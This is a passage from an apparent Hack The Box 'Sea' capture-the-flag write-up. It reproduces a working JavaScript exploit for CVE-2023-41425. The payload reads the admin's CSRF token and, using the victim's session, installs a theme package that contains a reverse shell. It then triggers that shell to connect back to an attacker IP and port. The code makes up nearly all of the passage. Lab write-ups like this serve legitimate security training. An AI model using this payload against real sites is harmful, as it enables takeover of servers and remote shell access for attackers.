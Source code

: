 ![Readme.md](/assets/img/posts/htb/sea/xydb0s6md6.png){: width="972" height="589" }

## Gain access www-data

I already got the exploit: [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425)

```javascript
var url = "http://sea.htb/index.php/?page=loginURL";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = "http://sea.htb/index.php"+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", "http://sea.htb/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.11";
       var port = "9001";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=9001");
       xhr5.send();
       
     }
   };
 }
};
```

